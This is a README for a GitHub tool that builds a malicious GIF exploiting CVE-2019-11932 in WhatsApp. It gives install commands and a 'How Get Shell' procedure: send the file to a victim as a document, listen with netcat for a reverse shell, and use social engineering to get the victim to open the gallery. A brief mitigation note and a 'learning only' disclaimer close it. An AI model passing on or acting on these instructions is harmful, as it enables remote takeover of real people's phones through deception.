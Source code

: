 # WhatsPayloadRCE

This is a Automated Generate Payload for CVE-2019-11932 (WhatsApp Remote Code Execution)

1. Auto install GCC (no harm command, you can see this is open-source)
2. Saving to **.GIF** file

## How To Use ?
```
sudo apt install git
git clone https://github.com/Err0r-ICA/WhatsPayloadRCE
cd WhatsPayloadRCE && bash start
```

## How Get Shell ?

1. You just send the **.GIF** file to victim user **AS A DOCUMENT NOT IMAGES**
2. And set the nc / netcat to port you set on the WhatsRCE tools {**nc -lnvp your_port**}
3. You can use the Social Engineering attack so that victims can be attracted to launch this exploit
4. Tell the victim to open the gallery via whatsapp and send the victim to send any phot.os After that a few seconds later you will receive a shell connection from the victim

## How To Avoid This Attack?

1. Update your whatsapp to the latest version **(Patched on Version 2.19.244)**
2. How to receive any file including audio images and others from people we don't know

### Thanks to [awakened1712](https://awakened1712.github.io/) - [Edo Maland](https://github.com/Screetsec/) - [IndoXploit](https://indoxploit.or.id)

# **This is only for learning, consequences etc. if you use it for a crime I am not responsible!**
